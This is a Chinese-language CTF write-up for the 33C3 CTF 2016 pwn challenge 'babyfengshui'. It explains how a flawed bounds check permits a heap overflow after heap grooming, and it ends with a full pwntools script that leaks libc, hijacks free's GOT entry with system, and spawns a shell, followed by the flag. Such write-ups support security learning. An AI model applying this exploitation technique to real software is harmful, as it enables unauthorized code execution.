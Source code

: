 ```yaml
---
title: "[33C3 CTF 2016] babyfengshui 150"
author: bruce30262
tags:
- pwn
- heap
- heap overflow
- GOT hijacking
- 33C3 CTF 2016
categories:
- write-ups
date: '2016-12-31'
layout: post
---
```


## Info  
> Category: pwn  
> Point: 150  
> Author: bruce30262 @ BambooFox

## Analyzing
32 bit ELF, Partial RELRO, canary & NX enabled, 沒 PIE

程式選單 :
```
$ ./babyfengshui
0: Add a user
1: Delete a user
2: Display a user
3: Update a user description
4: Exit
```
Add a user:
```
Action: 0
size of description: 50 <-- max length of description
name: AAAA 
text length: 12 <-- actual length of description
text: 1234
```
Show a user:
```
Action: 2
index: 0 <-- user's index
name: AAAA
description: 1234
```
Update a user:
```
Action: 3
index: 0
text length: 10 <-- new length of the description
text: 1234567890
```
`user` 的 data structure
```c 
struct user{
    char* desc;
    char name[124];
};
```
程式在 delete user 的時候除了會 free 掉 `user->desc` 和 `user` 本身之外，還會將 `user` pointer 清成 0，因此這題並不存在 Use-After-Free 的漏洞。

程式在設置 `user->desc` 的時候有一個很奇怪的 protection:
```c
// users = struct user *users[]
 if ( &users[id]->desc[text_len] >= &users[id] - 4 )
 {
   puts("my l33t defenses cannot be fooled, cya!");
   exit(1);
 }
 printf("text: ");
 read_n(users[id]->desc, text_len + 1);
```
這段程式碼的意思是，`user->desc` 這個 pointer + `text_len` 必須小於 `user` 這個 pointer。感覺程式是想用這段程式碼來防止 `user` 被 `user->desc` 覆寫 ( 避免 heap overflow )。

可是這段保護真的有用嗎 ?

## Exploit

如果我們有辦法排出下圖的 heap memory layout:
```
            +-----------------------+
userD->desc |                       |
            |                       |
            +-----------------------+
            |            userB->desc| userB
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userC->desc| userC
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userD->desc| userD
            |                       |
            |                       |
            |                       |
            +-----------------------+
```

根據那段保護的程式碼，`userD->desc + text_len` 必須小於 `userD`。我們可以看到 `userD->desc` 離 `userD` 有一段距離，中間還包含了 `userB` 和 `userC` 這兩個 data structure，說明我們其實可以覆寫掉整個 `userB` 和 `userC`。

這裡只要對 malloc.c 的 memory allocation 機制熟悉的話，要排出上圖的 heap memory layout 並不難。之後只要透過上述的 heap overflow 方式，我們就可以改掉 `userB->desc` 這個 data pointer，進而做到任意讀寫，剩下的就是做 GOT hijacking 拿 shell。

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.83"
PORT = 1456
ELF_PATH = "./babyfengshui_noalarm"
LIBC_PATH = "./libc-2.19.so"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def add_user(desc_len, name, text_len, text):
    r.sendlineafter("Action: ", "0")
    r.sendlineafter("description: ", str(desc_len))
    r.sendlineafter("name: ", name)
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

def del_user(index):
    r.sendlineafter("Action: ", "1")
    r.sendlineafter("index: ", str(index))

def show_user(index):
    r.sendlineafter("Action: ", "2")
    r.sendlineafter("index: ", str(index))

def update_user(index, text_len, text):
    r.sendlineafter("Action: ", "3")
    r.sendlineafter("index: ", str(index))
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    add_user(50, "A"*123, 12, "a"*12)
    add_user(50, "B"*123, 12, "b"*12) 
    add_user(50, "C"*123, 12, "sh\x00") # user[2], desc = "sh\x00" (for later's GOT hijacking)
    del_user(0)
    add_user(90, "D"*123, 12, "d"*12)
    add_user(50, "E"*123, 0x100, "i"*0xf8 + p32(elf.got['__libc_start_main'])) 
    # now user[4]'s desc is user[0]'s desc (in previous)
    # user[4]->desc + 0x2c8 = user[4], which means we can overflow user[4]->desc & overwrite user[1]->desc to libc_start_main@got.plt

    # leak address
    show_user(1)
    r.recvuntil("description: ")
    libc.address += u32(r.recv(4)) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']
    log.success("libc: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    
    # change user[1]->desc into free@got.plt
    # hijack free's got, then free user[2] to get shell
    update_user(4, 0x100, "i"*0xf8 + p32(elf.got['free']))
    update_user(1, 5, p32(system_addr))
    del_user(2)

    r.interactive()
```

flag: `33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1`